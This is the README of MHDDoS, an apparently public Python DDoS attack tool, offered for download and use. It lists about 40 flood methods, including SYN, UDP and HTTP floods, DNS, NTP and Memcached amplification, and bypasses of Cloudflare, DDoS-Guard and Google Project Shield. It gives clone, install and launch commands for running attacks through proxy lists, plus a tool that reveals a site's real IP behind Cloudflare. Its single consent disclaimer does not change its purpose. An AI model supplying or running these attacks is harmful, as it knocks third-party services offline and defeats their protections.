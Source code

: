 <p align="center"><img src="https://cdn.discordapp.com/attachments/938175699326484490/948263435412598864/unknown_2.png" width="400px" height="150px" alt="aventium softworks"></p>

<h1 align="center">MHDDoS - DDoS Attack Script With 40 Methods</h1>
<em><h5 align="center">(Programming Language - Python 3)</h5></em>

<p align="center">
<a href="#"><img alt="MHDDoS forks" src="https://img.shields.io/github/forks/MHProDev/MHDDoS?style=for-the-badge"></a>
<a href="#"><img alt="MHDDoS last commit (main)" src="https://img.shields.io/github/last-commit/MHProDev/MHDDoS/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="MHDDoS Repo stars" src="https://img.shields.io/github/stars/MHProDev/MHDDoS?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="MHDDoS License" src="https://img.shields.io/github/license/MHProDev/MHDDoS?color=orange&style=for-the-badge"></a>
<a href="https://github.com/MHProDev/MHDDoS/issues"><img alt="MHDDoS issues" src="https://img.shields.io/github/issues/MHProDev/MHDDoS?color=purple&style=for-the-badge"></a>

<p align="center">Please Don't Attack websites without the owners consent.</p>

<p align="center"><img src="https://i.imgur.com/aNrHJcA.png" width="1078" height="433" alt="POWER"></p>
<p align="center"><img src="https://i.imgur.com/4Q7v2wn.png" width="1078" height="296" alt="SCRIPT"></p>

## Features And Methods

 * 💣 Layer7

   * <img src="https://image.flaticon.com/icons/png/128/2431/2431664.png" width="16" height="16" alt="get"> GET | GET Flood
   * <img src="https://cdn0.iconfinder.com/data/icons/database-storage-5/60/server__database__fire__burn__safety-512.png" width="16" height="16" alt="post"> POST | POST Flood
   * <img src="https://upload.wikimedia.org/wikipedia/en/thumb/f/f9/OVH_Logo.svg/1200px-OVH_Logo.svg.png" width="16" height="16" alt="ovh"> OVH | Bypass OVH
   * <img src="https://cdn.iconscout.com/icon/premium/png-256-thumb/cyber-bullying-2557797-2152371.png" width="16" height="16" alt="stress"> STRESS | Send HTTP Packet With High Byte 
   * <img src="https://image.flaticon.com/icons/png/512/3132/3132142.png" width="16" height="16" alt="dyn"> DYN | A New Method With Random SubDomain
   * <img src="https://cdn2.iconfinder.com/data/icons/poison-and-venom-fill/160/loris2-512.png" width="16" height="16" alt="slow"> SLOW | Slowloris Old Method of DDoS
   * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-how-work-icon.png" width="16" height="16" alt="head"> HEAD | https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD
   * <img src="https://img.icons8.com/plasticine/2x/null-symbol.png" width="16" height="16" alt="null"> NULL | Null UserAgent and ...
   * <img src="https://i.pinimg.com/originals/03/2e/7d/032e7d0755cd511c753bcb6035d44f68.png" width="16" height="16" alt="cookie"> COOKIE | Random Cookie PHP 'if (isset($_COOKIE))'
   * <img src="https://image.flaticon.com/icons/png/512/2100/2100795.png" width="16" height="16" alt="pps"> PPS |  Only 'GET / HTTP/1.1\r\n\r\n'
   * <img src="https://cdn3.iconfinder.com/data/icons/internet-security-14/48/DDoS_website_webpage_bomb_virus_protection-512.png" width="16" height="16" alt="even"> EVEN | GET Method with more header
   * <img src="https://projectshield.withgoogle.com/static/icons/favicon.ico" width="16" height="16" alt="googleshield"> GSB | Google Project Shield Bypass
   * <img src="https://seeklogo.com/images/D/ddos-guard-logo-CFEFCA409C-seeklogo.com.png" width="16" height="16" alt="DDoSGuard"> DGB | DDoS Guard Bypass
   * <img src="https://i.imgur.com/bGL8qfw.png" width="16" height="16" alt="ArvanCloud"> AVB | Arvan Cloud Bypass
   * <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/53/Google_%22G%22_Logo.svg/1024px-Google_%22G%22_Logo.svg.png" width="16" height="16" alt="Google bot"> BOT | Like Google bot
   * <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a8/Apache_HTTP_Server_Logo_%282016%29.svg/1000px-Apache_HTTP_Server_Logo_%282016%29.svg.png" width="16" height="16" alt="Apache Webserver"> APACHE | Apache Expliot
   * <img src="https://icon-library.com/images/icon-for-wordpress/icon-for-wordpress-16.jpg" width="16" height="16" alt="wordpress expliot"> XMLRPC | WP XMLRPC expliot (add /xmlrpc.php)
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare"> CFB | CloudFlare Bypass
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare UnderAttack Mode"> CFBUAM | CloudFlare Under Attack Mode Bypass
   * <img src="http://iclouddnsbypass.com/wp-content/uploads/2015/02/iCloudDNSBypassServer.ico" width="16" height="16" alt="bypass"> BYPASS |  Bypass Normal AntiDDoS
   * <img src="https://cdn-icons-png.flaticon.com/512/905/905568.png" width="16" height="16" alt="bypass"> BOMB |  Bypass with codesenberg/bombardier


* 🧨 Layer4: 
  * <img src="https://raw.githubusercontent.com/kgretzky/pwndrop/master/media/pwndrop-logo-512.png" width="16" height="16" alt="tcp"> TCP | TCP Flood Bypass
  * <img src="https://styles.redditmedia.com/t5_2rxmiq/styles/profileIcon_snoob94cdb09-c26c-4c24-bd0c-66238623cc22-headshot.png" width="16" height="16" alt="udp"> UDP | UDP Flood Bypass
  * <img src="https://cdn-icons-png.flaticon.com/512/1918/1918576.png" width="16" height="16" alt="syn"> SYN | SYN Flood
  * <img src="https://cdn.iconscout.com/icon/free/png-256/virus-2165355-1821015.png" width="16" height="16" alt="vse"> VSE | Send VSE Protocol
  * <img src="https://cdn.iconscout.com/icon/free/png-512/redis-4-1175103.png" width="16" height="16" alt="mem"> MEM | Memcached Amplification
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="ntp"> NTP | NTP Amplification
  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft"> MINECRAFT | Minecraft Status Ping Protocol
  * <img src="https://cdn-icons-png.flaticon.com/512/2653/2653461.png" width="16" height="16" alt="dns"> DNS | DNS Amplification
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="chargen"> CHAR | Chargen Amplification
  * <img src="https://help.apple.com/assets/6171BD2C588E52621824409D/6171BD2D588E5262182440A4/en_US/8b631353e070420f47530bf95f1a7fae.png" width="16" height="16" alt="ard"> ARD | Apple Remote Desktop Amplification
  * <img src="https://www.tenforums.com/geek/gars/images/2/types/thumb__emote__esktop__onnection.png" width="16" height="16" alt="rdp"> RDP |  Remote Desktop Protocol Amplification

* ⚙️ Tools - Run With 
`
python3 start.py tools
`
  * 🌟 CFIP | Find Real IP Address Of Websites Powered By Cloudflare
  * 🔪 DNS | Show DNS Records Of Sites
  * 📍  TSSRV | TeamSpeak SRV Resolver
  * ⚠  PING | PING Servers
  * 📌 CHECK | Check If Websites Status
  * 😎 DSTAT | That Shows Bytes Received, bytes Sent and their amount

* 🎩 Other
  * ❌ STOP | STOP All Attacks
  * 🌠 TOOLS | Console Tools
  * 👑 HELP | Show Usage Script

#### Issues ? 
 * Telegram : https://t.me/DD0SChat
 * Discord : MH_ProDev#2681
 * [GitHub][github]
#### Like the project? Leave a star on the repository!

## Downloads

You can download it from [GitHub Releases](https://github.com/MHProDev/MHDDoS/releases)

### Getting Started

**Requirements**

* [cfscrape](https://github.com/Anorov/cloudflare-scrape)
* [impacket](https://github.com/SecureAuthCorp/impacket)
* [requests](https://github.com/psf/requests)
* [Python3][python3]
* [PyRoxy](https://github.com/MHProDev/PyRoxy)
* [icmplib](https://github.com/ValentinBELYN/icmplib)
* [certifi](https://github.com/certifi/python-certifi)
* [psutil](https://github.com/giampaolo/psutil)
* [dnspython](https://github.com/rthalley/dnspython)
* [yarl](https://github.com/aio-libs/yarl)
---
Optional
* [bombardier with proxy](github.com/mariotrucco/bombardier@78-add-proxy-support)

**Bombardier with proxy installation**

```shell script
mkdir bombardier_tmp
cd bombardier_tmp
go mod init bombardier_tmp
go mod edit -replace github.com/codesenberg/bombardier=github.com/mariotrucco/bombardier@78-add-proxy-support
go get github.com/codesenberg/bombardier
cd ..
rm -r bombardier_tmp
```

**Videos**

* Aparat: https://www.aparat.com/v/bHcP9
* YouTube : Coming soon...

**Toturial**

* Aprat : https://aparat.com/v/XPn5Z
* YouTube : https://youtu.be/mZilAOkLKK8
---

**Clone and Install Script**

```console
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip3 install -r requirements.txt
```


## Launch Script

| Proxy Type        | Value    |
| ----------------- | -------- |
| All Proxy         | 0 |
| HTTP              | 1 |
| SOCKS4            | 4 |
| SOCKS5            | 5 |

* Layer7 (Website):
```console
python3 start.py bypass https://example.com 5 1000 socks5.txt 100 100
python3 start.py bomb https://example.com 5 50 socks5.txt 100 100
```

* Layer4 (Server/Home):
```console
python3 start.py udp 1.1.1.1:53 1 100 socks5.txt 5
python3 start.py dns 1.1.1.1:53 1 100 socks5.txt 5 dns.txt
```

* Debug Mode (L4/L7):
```console
python3 start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python3 start.py udp 1.1.1.1:53 1 100 true
```

* Tools/Help:
```console
python3 start.py tools
python3 start.py help
```

[python3]: https://python.org 'Python3'
[github]: https://github.com/MHProDev/MHDDoS/issues 'GitHub'

---

**💰 Donation Links:**
* https://idpay.ir/mh-prodev

